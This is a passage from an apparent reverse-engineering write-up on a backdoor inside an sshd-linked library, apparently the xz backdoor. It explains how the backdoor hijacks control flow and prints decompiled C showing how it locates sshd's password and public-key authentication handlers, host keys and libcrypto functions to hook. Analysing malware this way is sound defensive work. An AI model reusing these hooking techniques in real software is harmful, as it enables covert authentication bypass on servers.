 At the end of the `bd_install_it_all` function, the pointer of this structure will be overwritten to hijack the control flow of the `dl_audit_symbind_alt` function.

The backdoor then recovers the addresses of strings, functions, and offsets that relate to the operation of the `sshd` process.
This information is used in subsequent hooks.
We show the code responsible for this process below:

```c
...
if ( all->BN_bn2bin )
  ++all->imports_count;
RSA_sign_sym_copy = RSA_sign_sym;

// handle list of functions for secret data update
// get imports from libcrypto
// get sensitive_data.host_keys pointer from sshd
if ( install_entries(elf_info_list.sshd_elf_info_p, elf_info_list.libcrypto_elf_info_p, &string_refs, hfuncs, g_ctx_p) == Error )
  goto _to_exit;

libcrypto_einfo = elf_info_list.libcrypto_elf_info_p;

if ( BN_bin2bn_sym )
{
  BN_bin2bn = &elf_info_list.libcrypto_elf_info_p->ehdr->e_ident[BN_bin2bn_sym->st_value];
  ++all->imports_count;
  all->BN_bin2bn = BN_bin2bn;
}
...
data_segment = elf_get_data_segment(sshd_elf_info_p, &insn.addr, 0);
if ( data_segment )
{
  addr = insn.addr;
  if ( string_refs.refs[I2S_mm_request_send_].code_start )
  {
    ssh_ctx->mm_request_send = string_refs.refs[I2S_mm_request_send_].code_start;
    ssh_ctx->mm_request_receive = string_refs.refs[I2S_mm_request_send_].code_end;
    LODWORD(sid) = STR_password_;
    str_password = prefix_trie_decode(sshd_elf, &sid, 0LL);
    ssh_ctx->str_password_ptr = str_password;
    if ( str_password
      && get_checked_reloc_for_symbol(
            I2S_mm_answer_authpassword_,
            &ssh_ctx->mm_answer_authpassword_start,
            &ssh_ctx->mm_answer_authpassword_end,
            &ssh_ctx->reloc_for_mm_answer_authpassword,
            sshd_elf,
            &string_refs,
            &g_ctx_p->sshd_main_verified) == Error )
    {
      ssh_ctx->mm_answer_authpassword_start = 0LL;
      ssh_ctx->mm_answer_authpassword_end = 0LL;
      ssh_ctx->reloc_for_mm_answer_authpassword = 0LL;
    }
    LODWORD(sid) = STR_publickey_;
    str_publickey = prefix_trie_decode(sshd_elf, &sid, 0LL);
    ssh_ctx->str_publickey = str_publickey;
    if ( str_publickey )
    {
      if ( get_checked_reloc_for_symbol(
              I2S_mm_answer_keyallowed_,
              &ssh_ctx->mm_answer_keyallowed_start,
              &ssh_ctx->mm_answer_keyallowed_end,
              &ssh_ctx->reloc_for_mm_answer_keyallowed,
```

[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48